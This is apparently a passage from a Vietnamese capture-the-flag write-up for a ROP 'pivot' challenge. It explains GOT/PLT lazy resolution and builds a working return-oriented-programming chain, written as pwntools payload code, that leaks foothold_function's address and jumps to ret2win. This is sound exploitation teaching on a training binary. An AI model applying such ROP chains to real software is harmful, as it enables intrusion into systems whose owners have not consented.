 0x00007ffff7fdd540 nằm trong execution của ld-linux-x86-64.so

![](images/Pivot/10_image.png)

![](images/Pivot/8_image.png)

Khi ta call put@plt lần 2, got.plt sẽ trỏ đến put trong ld-linux-x86-64.so

```text-x-python
$ readelf -r pivot 
Relocation section '.rela.plt' at offset 0x5c8 contains 9 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
  ...
000000601020  000200000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```

![](images/Pivot/11_image.png)

Như vậy để có được địa chỉ của hàm ret2win trong libpivot.so ta cần gọi hàm foothold\_function 1 lần, lấy địa chỉ đã resolve của foothold\_function trong got.plt và thêm vào offset khoảng cách giữa foothold\_function và ret2win là ta sẽ có địa chỉ cần tìm.

```text-x-python
Stack như sau:
[0x400720] -> foothold_function@plt
[0x4009bb] -> pop rax; ret;
[0x601040] -> foothold_function@got.plt -> rax; rax lúc này trỏ đến địa chỉ của foothold_function
[0x4009c0] -> mov rax, qword ptr [rax]; ret; Lấy địa chỉ của foothold_function đã resolve
---> thêm offset giữa foothold và ret2win để rax trỏ về ret2win
[0x4007c8] -> pop rbp; ret;
[0x4009c4] -> add rax, rbp; ret;
[0x4006b0] -> call rax; Gọi ret2win
```

Code payload 1

```text-x-python
lib_foothold_addrs = 0x0000096a # 10  0x0000096a 0x0000096a GLOBAL FUNC   19       foothold_function
lib_ret2win_addrs = 0x00000a81 # 18  0x00000a81 0x00000a81 GLOBAL FUNC   146      ret2win

payload1 = p64(0x400720) #8   0x00400720 GLOBAL FUNC       foothold_function
payload1 += p64(0x4009bb) # 0x00000000004009bb: pop rax; ret;
payload1 += p64(0x601040) # 6: sym.imp.foothold_function (); 0x00400720      ff251a092000   jmp qword [reloc.foothold_function] ; [0x601040:8]=0x400726;
payload1 += p64(0x4009c0) # 0x00000000004009c0: mov rax, qword ptr [rax]; ret;
payload1 += p64(0x4007c8) # 0x00000000004007c8: pop rbp; ret;
payload1 += p64(lib_ret2win_addrs-lib_foothold_addrs) #offset
payload1 += p64(0x4009c4) # 0x00000000004009c4: add rax, rbp; ret; 
payload1 += p64(0x4006b0) # 0x00000000004006b0: call rax;
p.sendline(payload1)
```
